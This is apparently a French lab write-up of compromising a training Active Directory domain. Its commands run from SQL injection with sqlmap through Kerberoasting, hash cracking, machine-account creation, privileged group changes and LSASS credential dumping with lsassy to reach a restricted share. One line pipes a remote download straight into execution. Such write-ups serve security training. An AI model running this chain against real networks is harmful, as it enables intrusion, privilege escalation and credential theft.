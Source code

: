 Tout d'abord pour demader le vpn

sudo openvpn --config akil.ovpn

sudo route -n add -net 192.168.40.0/24 -interface utun3


Ensuite voici a quoi ressemble mon /etc/hosts
![Capture d’écran 2024-11-14 à 16 00 35](https://github.com/user-attachments/assets/09392315-4757-494f-98ab-cc74ef0e38c4)

À partir de là, on utilise sqlmap pour tester une injection SQL sur le site web interne. La commande suivante permet d'obtenir le schéma de la base de données :
sqlmap -u "http://internal.vuln.lab/index.php?page=profil.php&id=5" --cookie="PHPSESSID=231iferbmflpia398nc649doua" --schema --batch
![Capture d’écran 2024-11-14 à 16 03 56](https://github.com/user-attachments/assets/35b4f2ff-e3df-47bf-9a11-eeb170d514d1)

Ensuite, on extrait le contenu de la table users, ce qui nous permet de récupérer le mot de passe d'Alice :
sqlmap -u "http://internal.vuln.lab/index.php?page=profil.php&id=5" --cookie="PHPSESSID=231iferbmflpia398nc649doua" --dump -T users --batch
![Capture d’écran 2024-11-14 à 16 04 11](https://github.com/user-attachments/assets/69f89746-4eb2-400b-9b2c-95bbfe82187d)

Ainsi, le mot de passe d'Alice (p@ssword) est obtenu.

En poursuivant, nous réalisons un Kerberoasting pour récupérer les tickets Kerberos des comptes de service :
nxc ldap 192.168.40.127 -u 'Alice.mice' -p 'p@ssword' -d 'vuln.lab' --kerberoasting kerberoasting.txt
![Capture d’écran 2024-11-14 à 16 05 41](https://github.com/user-attachments/assets/18a9f071-ea3f-4912-8ce9-0898fb7fd9ff)
Le hash obtenu correspond à svc_srv. Nous allons donc essayer de cracker ce hash pour obtenir le mot de passe en clair.

Avec hashcat, on utilise le mode 13100 pour casser le hash :
hashcat -m 13100 -a 0 kerberoasting.txt passwords.txt 
![Capture d’écran 2024-11-14 à 16 06 30](https://github.com/user-attachments/assets/78dff516-e728-4e94-b740-ad684e7d4bea)

Il est également possible d’utiliser John The Ripper pour obtenir le mot de passe:
john --format=krb5tgs --wordlist=passwords.txt kerberoasting.txt
![Capture d’écran 2024-11-14 à 16 07 07](https://github.com/user-attachments/assets/5c67de6d-ce53-4c7e-8c75-ed773514a771)

Le mot de passe de svc_srv est donc trouvé : qwerty123.

Ensuite, on vérifie les permissions disponibles pour Alice sur le partage SMB :
nxc smb DC01.VULN.LAB -u 'Alice.mice' -p 'p@ssword' -d 'vuln.lab' --dns-server 192.168.40.127 --shares
![Capture d’écran 2024-11-14 à 16 07 49](https://github.com/user-attachments/assets/f41a0246-073b-4d76-9d7f-fdb8e5f12b27)
Bien qu'elle ait accès à certains partages, l'accès au dossier CurriculumVitae, qui nous intéresse, lui est refusé.

Pour contourner cette restriction, on utilise Alice pour créer un compte machine appelé akil :
bloodyAD -u Alice.mice -p 'p@ssword' -d vuln.lab --host vuln.lab --dc-ip 192.168.40.127 add computer akil 'Password!'
![Capture d’écran 2024-11-14 à 16 22 31](https://github.com/user-attachments/assets/0449e44f-cec3-4329-9dae-79f16989f45a)

Pour analyser et visualiser les permissions dans Active Directory, on utilise BloodHound avec Alice :
bloodhound-python -c All -u 'Alice.mice' -p 'p@ssword' -d vuln.lab -ns 192.168.40.127
curl -L https://ghst.ly/getbhce | sudo docker compose -f - up

Ensuite, on se connecte à l'interface BloodHound via "http://127.0.0.1:8080/ui/explore".
Les fichier .json générés seront mis dans l'onglet Administration de bloodHound.

Avec les privilèges de svc_srv, on ajoute le compte akil dans le groupe server_admins, ce qui lui octroie des droits administratifs sur les serveurs :
bloodyAD -u svc_srv -p 'qwerty123' -d vuln.lab --host 192.168.40.127 --dc-ip 192.168.40.127 add groupMember server_admins 'akil$'
![Capture d’écran 2024-11-14 à 16 18 53](https://github.com/user-attachments/assets/130f4146-5860-4b89-9b8d-fee75317247d)

Nous vérifions ensuite qu’akil a bien les permissions nécessaires pour accéder aux informations d'un compte administrateur :
![Capture d’écran 2024-11-14 à 16 25 48](https://github.com/user-attachments/assets/ddbc54c1-8d21-472d-b924-f6a1cbb659f9)

Ensuite grace a cette commande on a pu avoir acces au mot de passe hasher de srv_neccus en utilisant lsassy:
 nxc smb SRV01.VULN.LAB -u 'akil$' -p 'Password!' -M lsassy
 ![Capture d’écran 2024-11-14 à 16 29 17](https://github.com/user-attachments/assets/387278f6-bb8d-4cc5-af39-159c391a525f)

Grâce à ce hash, on peut ajouter akil au groupe human_resources car, d’après BloodHound, svc_nessus, via le groupe administrative_groups, a la possibilité d’ajouter des membres dans human_resources :
<img width="1433" alt="Capture d’écran 2024-11-14 à 16 32 51" src="https://github.com/user-attachments/assets/5a76fe09-2541-4a3d-8312-3191dc30c77a">
bloodyAD -u svc_nessus -p ':e3cddc751fabf3eed53f904d85b1a0ba' -d vuln.lab --host 192.168.40.127 --dc-ip 192.168.40.127 add groupMember "human_resources" 'akil$'
![Capture d’écran 2024-11-14 à 16 33 32](https://github.com/user-attachments/assets/f639e056-1639-497d-9524-839bd37389b3)

Finalement, on accède au partage CurriculumVitae en utilisant akil avec les droits nécessaires :
nxc smb DC01.VULN.LAB -u 'akil$' -p 'Password!' -d 'vuln.lab' --dns-server 192.168.40.127 --shares 
![Capture d’écran 2024-11-14 à 16 35 17](https://github.com/user-attachments/assets/3956ac70-d6a7-4178-8676-13dca51c6e89)
![Capture d’écran 2024-11-14 à 16 35 53](https://github.com/user-attachments/assets/ecca4a57-8a0c-43f9-beb8-e13a60674b57)


 

 









